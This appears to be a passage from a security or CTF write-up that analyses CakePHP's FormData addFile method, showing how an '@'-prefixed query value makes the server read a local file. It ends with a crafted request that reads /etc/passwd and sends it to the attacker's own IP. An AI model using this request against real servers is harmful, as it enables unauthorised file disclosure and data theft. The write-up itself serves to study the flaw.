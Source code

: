 ```php
     * @param mixed $value Either a string filename, or a filehandle.
     * @return \Cake\Http\Client\FormDataPart
     */
    public function addFile($name, $value)
    {
        $this->_hasFile = true;

        $filename = false;
        $contentType = 'application/octet-stream';
        if (is_resource($value)) {
            $content = stream_get_contents($value);
            if (stream_is_local($value)) {
                $finfo = new finfo(FILEINFO_MIME);
                $metadata = stream_get_meta_data($value);
                $contentType = $finfo->file($metadata['uri']);
                $filename = basename($metadata['uri']);
            }
        } else {
            $finfo = new finfo(FILEINFO_MIME);
            $value = substr($value, 1);
            $filename = basename($value);
            $content = file_get_contents($value);
            $contentType = $finfo->file($value);
        }
        $part = $this->newPart($name, $content);
        $part->type($contentType);
        if ($filename) {
            $part->filename($filename);
        }
        $this->add($part);

        return $part;
    }
 ```

Execution in the `addMany(array $data)` function will iterate the array and then call  `add($name, $value)` for each item. In the `add($name, $value)` function, if `$value` is a string that starts with `@`, then `addFile($name, $value)` will be called.

In `addFile($name, $value)`, because `$value` is a string, `$value = substr($value, 1);` and `$content = file_get_contents($value);` will be executed. With this, since `$value` is tainted from `getQuery('data')`, we can control the parameter of `file_get_contents`!

#### Local File Disclosure

To test it, we can try to do Local File Disclosure. The 'Request' data created will be sent directly to the URL using `fopen` in `Cake\Http\Client\Adapter\Stream` so we can try to send a file to our IP.

The following is a request to send `/etc/passwd` to our IP.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/passwd
```
